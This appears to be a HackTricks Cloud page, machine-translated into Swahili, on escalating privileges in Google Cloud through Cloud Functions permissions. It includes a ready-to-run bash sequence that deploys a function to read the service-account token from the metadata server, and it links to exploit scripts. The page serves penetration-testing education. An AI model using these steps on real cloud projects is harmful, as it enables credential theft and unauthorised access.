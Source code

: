 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Maelezo zaidi kuhusu Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Mshambuliaji mwenye ruhusa hizi anaweza **kuunda Cloud Function mpya yenye msimbo (mbaya) wa kiholela na kupewa Akaunti ya Huduma**. Kisha, vuja tokeni ya Akaunti ya Huduma kutoka kwenye metadata ili kupandisha ruhusa kwake.\
Ruhusa zingine za kuanzisha kazi hiyo zinaweza kuhitajika.

Mifano ya skripti za kutumia njia hii inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) na [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) na faili ya .zip iliyojengwa tayari inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Mshambuliaji mwenye ruhusa hizi anaweza **kubadilisha msimbo wa Kazi na hata kubadilisha akaunti ya huduma iliyounganishwa** kwa lengo la kuhamasisha tokeni.

{% hint style="danger" %}
Ili kupeleka kazi za wingu, pia utahitaji ruhusa za actAs juu ya akaunti ya huduma ya kawaida ya kompyuta au juu ya akaunti ya huduma inayotumika kujenga picha.
{% endhint %}

Ruhusa za ziada kama ruhusa ya `.call` kwa toleo la 1 la cloudfunctions au jukumu `role/run.invoker` ili kuanzisha kazi hiyo zinaweza kuhitajika.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Ikiwa unapata kosa `Permission 'run.services.setIamPolicy' denied on resource...` ni kwa sababu unatumia param `--allow-unauthenticated` na huna ruhusa za kutosha kwa hiyo.
{% endhint %}

Script ya exploit kwa njia hii inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Kwa ruhusa hii unaweza kupata **URL iliyosainiwa ili uweze kupakia faili kwenye mfuko wa kazi (lakini msimbo wa kazi hautabadilishwa, bado unahitaji kuisasisha)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Sijui jinsi ruhusa hii pekee inavyoweza kuwa na manufaa kutoka kwa mtazamo wa mshambuliaji, lakini ni vizuri kujua.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Jipe ruhusa yoyote kati ya **`.update`** au **`.create`** zilizotangulia ili kupandisha hadhi.

### `cloudfunctions.functions.update`

Kuwa na ruhusa za **`cloudfunctions`** pekee, bila **`iam.serviceAccounts.actAs`** huwezi **kusaidia kazi HII SI VALID PRIVESC.**

### Upatikanaji wa Kusoma na Kuandika juu ya ndoo

Ikiwa una upatikanaji wa kusoma na kuandika juu ya ndoo unaweza kufuatilia mabadiliko katika msimbo na kila wakati **mabadiliko katika ndoo yanapotokea unaweza kusasisha msimbo mpya na msimbo wako** ambao toleo jipya la Cloud Function litakimbia na msimbo wa nyuma uliowasilishwa.

Unaweza kuangalia zaidi kuhusu shambulio katika:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Hata hivyo, huwezi kutumia hii kujiandaa kabla ya kuathiri Cloud Functions za watu wengine kwa sababu ikiwa utaunda ndoo katika akaunti yako na kuipa ruhusa za umma ili mradi wa nje uweze kuandika juu yake, unapata kosa lifuatalo:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Hata hivyo, hii inaweza kutumika kwa shambulio za DoS.
{% endhint %}

## Marejeo

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki hila za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
